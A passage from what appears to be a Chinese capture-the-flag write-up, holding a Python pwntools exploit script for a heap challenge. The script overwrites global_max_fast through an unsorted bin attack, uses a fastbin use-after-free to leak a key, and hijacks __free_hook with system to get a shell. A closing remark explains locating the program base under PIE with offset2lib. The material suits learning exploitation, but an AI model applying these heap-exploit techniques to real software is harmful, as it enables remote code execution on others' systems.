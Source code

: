 ```python
print "[*]global_max_fast_addr: " + hex(global_max_fast_addr)

#__free_hook's address
free_hook_addr = libc_base_addr + 0x3C0A10  #global variable in bss
print "[*]free_hook_addr: " + hex(free_hook_addr)


#and now the problem is how to get the address of executeble file.
pie_addr = libc_base_addr + 0x5EA000  #offset2libc
print "[*]PIE_addr: " + hex(pie_addr)

bss_addr = pie_addr + 0x203020
print "[*]bss_addr: " + hex(bss_addr)
#raw_input("go")

#now let's overwrite the global_max_fast using unsorted bin attack
insert(8) #0, 1, 2, 3, 4, 5  #becuse of fastbin's FIRST IN FIRST OUT, so we must malloc the first one chunk in unsorted bin
update( 0, 16, 'a' * 8 + p64(global_max_fast_addr - 0x10) )
insert(8) #0, 1, 2, 3, 4, 5, 6
#raw_input("\n[*]Finished overwrite global_max_fast. Go?\n")

#now let's take a fastbin unlink attack
merge(3, 3) #0, 1, 2, 4, 5, 6, 7  #first link into fastbin and causing uaf
update(7, 8, p64(bss_addr + 0x40 + 24 * 5) )
insert(8) #0, 1, 2, 3, 4, 5, 6, 7
insert(80) #0, 1, 2, 3, 4, 5, 6, 7, 8, no.8-->bss,also array no.5

#next is to get the key
p.recvuntil("Your choice: ")
p.sendline('5')
p.recvuntil("Entry ID: ")
p.sendline('8')
p.recvuntil("Entry No.8:\n")
r = p.recv(80)
key = u64(r[-8:]) ^ (bss_addr + 0x40 + 24 *5 + 16)
print "[*]key: " + hex(key)
#raw_input("\n[*]Get key. Go?\n")

#overwrite __free_hook with system
update( 8, 32, p64(0xdeadbeef) + p64(1) + p64(8) + p64(free_hook_addr ^ key) ) #edit no.6 's pointer 
#raw_input("\n[*]replaced no.6's pointer!go?")

#trigger free to call system
update( 6, 8, p64(system_addr) )
delete(1)

print "[*]Get a shell!\n"

p.interactive()

```
脚本里的相关位置的偏移可以根据哪个函数引用它来找到。由于程序开了PIE，但是当泄露了libc的地址后，可以算出程序的base address，libc.so到程序的偏移是一个定值[offset2libc](https://cybersecurity.upv.es/attacks/offset2lib/offset2lib.html)。
